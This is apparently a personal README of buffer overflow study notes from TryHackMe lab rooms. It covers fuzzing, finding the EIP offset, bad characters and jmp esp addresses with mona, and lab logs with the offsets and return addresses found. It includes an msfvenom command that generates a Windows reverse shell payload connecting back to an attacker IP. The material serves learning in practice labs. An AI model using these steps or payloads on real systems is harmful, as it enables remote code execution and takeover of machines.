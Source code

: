 # BoF
Buffer Overflow Script
(Typos exist)

We start with saying. This is just for documentation and me for learning Buffer Overflows.
I will explain in the script what is goning on instead of writing it here.
Sometimes I edit script 10 times to get it to work, and I do not want to update the README every time.

More details and step by step can be bound here: 
https://jensoroger.wordpress.com/2021/01/19/explain-in-my-own-way-how-to-do-basic-buffer-overflow-with-help-from-realtryhackme-bufferoverlow-hacking-infosec-linux4hackers-pentest-pentesting-redteam/

## Step 1 General about fuzzing
The goal here is to crash the application and make the application execute "our" code that we decide. You need to know how the application works, are login first and the something else that we want to fuzz (crash).

## Step 2 Finding the offset
The goal here is to get control of EIP in the stack, for that to happend we need to find the offset. 

### Step 2.1 (fuzz.py)
Crash the application with fuzz.py and see if EIP contains AAAA.
What is needed are in the script. 
ip, port, string

We also need to verify with ex. Immunity Debugger that EIP contains AAAA


### Step 2. Crash the application and find offset (payload1.py)
Here we want to try finding out if we can control the buffer
We create a payload that are random with pattern_create.rb and then verify if we can find the offset for example with Immunty Debugger.

ip, port, overflow, payload (random data), buffer

Immunity Debugger and mona are used for this

### Step 2.2 Verify the offset (payload2.py)
Here we just verify that all is correct. The EIP shall contain AAAA

ip, port, offsett, retn, payload, buffer, 

Immunity Debugger and mona are used for this

## Step 3 Find bad characters that we can not use in our all characters \x00  (payload3.py)
ip, port, offsett, retn, payload = bad charachter, buffer

Immunity Debugger and mona are used for this

!mona bytearray -b "\x00"

!mona compare -f C:\mona\oscp\bytearray.bin -a "ESP"

 Message=Possibly bad chars: 02 04

## Step 3.1 Find characters minus 3.1 founded  characters (payload3.py edited)
ip, port, offsett, retn, payload = bad charachter, buffer

Immunity Debugger and mona are used for this

!mona bytearray -b "\x00\x02\x04"

!mona compare -f C:\mona\"procename"bytearray.bin -a "ESP"

Do this until you have Unmodified 

## Step 4 Finding jump adress (payload3.py)
In mona after step 3 and add the bad characters that you find.
!mona jmp -r esp -cpb "\x00\x02\x04"
Choose a nice adress in the list, if it do not work at the first time try one more in the list.

## Step 5 Creating the payload (payload4.py)
ip, port, offsett, retn, payload = buf, padding, buffer

Immunity Debugger and mona are used for this

Here you need to know what OS is running the application. It is hard to create a reverse shell from Windows machine with a payload for Linux.
Also the padding my need som ajustments.

Payload exemples that you can use the out put in the script
LHOST=Your attacker box IP
LPORT=What port will the victim use to connect to your attack box
-b= That is the bad characters that you will find in step 3
-f=The output will be in pyton, so we can add this payload to the script.

msfvenom -p windows/shell_reverse_tcp LHOST=172.21.21.34 LPORT=4444 EXITFUNC=thread -b "\x00" -f py

## Brainstorm from tryhackme
The main thing in this BoF was that the first thing that happens when you connect to the application on port 9999
is that a login appears.This has maximum 20 char. Tried first fuzzing that. But found out that this is not gonna happend.
When you enter a username and then you are getting a send message prompt and that is vulnerble.
So in our payload we need to sen Username and a payload.

##Fuzz
python2 ./fuzz.py 
Login with user name roger and fuzzing Chat with 100 bytes
.
.
Login with user name roger and fuzzing Chat with 2200 bytes
Could not connect to 172.21.21.28:9999

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2500

##Payload 
Create Payload payload.py

!mona findmsp -distance 2500

Offset 2012

0 bad characters

msfvenom -p windows/shell_reverse_tcp LHOST=172.21.21.34 LPORT=4444 EXITFUNC=thread -b "\x00" -f py

Log data, item 11
 Address=625014DF
 Message=  0x625014df : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\win7.INVID\Desktop\vulnerable-apps\chat server\essfunc.dll)

##Gatekeepe
SMB

gatekepper.exe

python2 ./fuzz.py 
Fuzzing hello 100 bytes
Fuzzing hello 200 bytes

msf-pattern_create -l 500

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 500

!mona findmsp -distance 500

Log data, item 22
 Address=0BADF00D
 Message=    EIP contains normal pattern : 0x39654138 (offset 146)

!mona bytearray -b "\x00"

!mona compare -f C:\mona\gatekeeper\bytearray.bin -a 016A19F8

Log data, item 4
 Address=016A19F8
 Message=Possibly bad chars: 0b

!mona compare -f C:\mona\gatekeeper\bytearray.bin -a 014E19F8

Bad Characters
!mona bytearray -b "\x00\x0a\x0b"

!mona jmp -r esp -cpb "\x00\x01\x0b"

Log data, item 4
 Address=080414C3
 Message=  0x080414c3 : jmp esp |  {PAGE_EXECUTE_READ} [gatekeeper.exe] ASLR: False, Rebase: False, SafeSEH: True, OS: False, v-1.0- (C:\Users\win7.INVID\Desktop\vulnerable-apps\gatekeeper\gatekeeper.exe)

Log data, item 3
 Address=080416BF
 Message=  0x080416bf : jmp esp |  {PAGE_EXECUTE_READ} [gatekeeper.exe] ASLR: False, Rebase: False, SafeSEH: True, OS: False, v-1.0- (C:\Users\win7.INVID\Desktop\vulnerable-apps\gatekeeper\gatekeeper.exe)

\xbf\x16\x04\x08

User Shell
